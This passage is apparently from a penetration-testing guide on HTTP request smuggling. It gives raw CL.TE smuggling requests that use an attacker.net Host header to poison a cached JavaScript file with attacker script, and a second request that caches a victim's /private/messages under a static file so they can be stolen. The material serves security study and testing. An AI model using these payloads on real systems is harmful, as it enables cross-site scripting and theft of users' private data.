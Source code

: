 `POST / HTTP/1.1`\
`Host: vulnerable.net`\
`Content-Type: application/x-www-form-urlencoded`\
`Connection: keep-alive`\
`Content-Length: 124`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /post/next?postId=3 HTTP/1.1`\
`Host: attacker.net`\
`Content-Type: application/x-www-form-urlencoded`\
`Content-Length: 10`\
\`\`\
`x=1`

Note how the embedded request is asking for `/post/next?postId=3` This request is going to be redirected to `/post?postId=4` and **will use the value of the Host header** to indicate the domain. Therefore, you can **modify the Host header** to point the attackers server and the redirect will use that domain (**on-site redirect to open redirect**).

Then, **after poisoning the socket**, you need to send a **GET request** to \*\*`/static/include.js`\*\*this request will be **poisoned** by the **on-site redirect to open redirect** request and will **grab the contents of the attacker controlled script**.

The next time that somebody ask for `/static/include.js` the cached contents of the attackers script will be server (general XSS).

### Using HTTP request smuggling to perform web cache deception <a href="#using-http-request-smuggling-to-perform-web-cache-deception" id="using-http-request-smuggling-to-perform-web-cache-deception"></a>

> **What is the difference between web cache poisoning and web cache deception?**
>
> * In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
> * In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

In this variant, the attacker smuggles a request that returns some sensitive user-specific content. For example:

`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`

If the **poison reaches a client that was accessing some static content** like `/someimage.png` that was going to be **cached**. The contents of `/private/messages` of the victim will be cached in `/someimage.png` and the attacker will be able to steal them.\
Note that the **attacker doesn't know which static content the victim was trying to access** so probably the best way to test this is to perform the attack, wait a few seconds and **load all** the static contents and **search for the private data**.
